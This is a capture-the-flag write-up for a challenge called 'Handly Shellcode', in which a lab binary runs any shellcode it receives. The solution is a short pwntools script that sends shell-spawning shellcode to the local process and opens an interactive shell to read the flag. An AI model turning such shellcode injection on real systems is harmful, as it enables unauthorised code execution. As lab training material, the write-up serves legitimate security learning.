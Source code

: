 # Handly Shellcode

### 📄 Description
This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt?


### ⚙ How to run it
```bash
./vuln
```

<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>

We have a program that asks us an shellcode.

If we provide to it an working shellcode, it will perform this shellcode.

There really wasn't a thinking process involved with the solution of this one, pwntools gives us a ready made shellcode for popping a shell using `shellcraft`.

```python
from pwn import *

context.binary = "./vuln"

p = process()
p.sendline(asm(shellcraft.sh()))
p.interactive()
```